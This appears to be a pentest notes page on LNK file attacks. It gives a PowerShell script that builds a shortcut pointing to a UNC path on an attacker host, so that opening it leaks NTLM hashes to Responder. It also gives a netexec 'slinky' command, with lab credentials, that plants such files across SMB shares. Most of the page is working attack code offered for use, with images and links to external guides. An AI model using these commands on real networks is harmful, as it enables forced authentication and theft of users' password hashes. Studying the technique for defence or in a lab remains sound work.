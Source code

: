 # 🗄️ LNK File Attacks

<figure><img src="../../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
$objShell = New-Object -ComObject WScript.shell
$lnk = $objShell.CreateShortcut("C:\test.lnk")
$lnk.TargetPath = "\\192.168.138.149\@test.png"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "Test"
$lnk.HotKey = "Ctrl+Alt+T"
$lnk.Save()
```

<figure><img src="../../../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

What will happen if we have responder listening and this file is triggered, we will get a hash and force auth:

<figure><img src="../../../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

good example:

{% embed url="https://infinitelogins.com/2020/12/17/capturing-password-hashes-via-malicious-lnk-files/" %}

everyone who will interact with this share will send us a hash, very malicious&#x20;

A good thing to know is :

```
netexec smb 192.168.138.137 -d marvel.local -u fcastle -p Password1 -M slinky -o NAME=test SERVER=192.168.138.149
```

{% embed url="https://www.infosecmatter.com/crackmapexec-module-library/?cmem=smb-slinky" %}

{% embed url="https://www.netexec.wiki/" %}

{% embed url="https://www.ired.team/offensive-security/initial-access/t1187-forced-authentication#execution-via-.rtf" %}
